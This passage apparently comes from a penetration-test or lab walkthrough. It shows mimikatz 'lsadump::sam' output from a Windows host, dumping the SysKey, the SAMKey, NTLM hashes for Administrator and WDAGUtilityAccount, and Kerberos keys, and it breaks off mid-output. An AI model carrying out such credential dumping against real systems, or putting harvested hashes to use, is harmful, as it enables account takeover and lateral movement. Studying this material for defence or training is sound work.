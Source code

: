 Now the precious hashes

```bash
mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID : 000001f4 (500)
User : Administrator
Hash NTLM: c16444961f67af7eea7e420b65c8c3eb

Supplemental Credentials:

- Primary:NTLM-Strong-NTOWF \*
  Random Value : efd8f5fd23c3b910ef609e3e872276c8

- Primary:Kerberos-Newer-Keys \*
  Default Salt : CHANGE-MY-HOSTNAMEAdministrator
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096) : c3bfc4a1912ab98abb75ad9d11aa511e30673f6c495066a811032df9756b9f3e
  aes128_hmac (4096) : 6fbcc5a35c6507e1dd2c51521557b3b6
  des_cbc_md5 (4096) : 9ba7cdb3972013cd
  OldCredentials
  aes256_hmac (4096) : 9484aadacd6c5994aed633bf92b6b3db31c57c932d2cd84a7fa635a0b3262806
  aes128_hmac (4096) : cdda685dd630dd0796e5ddf38e22dce5
  des_cbc_md5 (4096) : 08340db613fb46b5
  OlderCredentials
  aes256_hmac (4096) : 50141e3b3b449512e393a66c32e7f89a131744eef5d8a3f6a8576919a810cda3
  aes128_hmac (4096) : 0d717b42dbaf77bb7248b4bebf8bb3a6
  des_cbc_md5 (4096) : bc23a20170542f25

- Packages \*
  NTLM-Strong-NTOWF

- Primary:Kerberos \*
  Default Salt : CHANGE-MY-HOSTNAMEAdministrator
  Credentials
  des_cbc_md5 : 9ba7cdb3972013cd
  OldCredentials
  des_cbc_md5 : 08340db613fb46b5

RID : 000001f5 (501)
User : Guest

RID : 000001f7 (503)
User : DefaultAccount

RID : 000001f8 (504)
User : WDAGUtilityAccount
Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

Supplemental Credentials:

- Primary:NTLM-Strong-NTOWF \*
  Random Value : a1528cd40d99e5dfa9fa0809af998696

- Primary:Kerberos-Newer-Keys \*
  Default Salt : WDAGUtilityAccount
  Default Iterations : 4096
  Credentials
```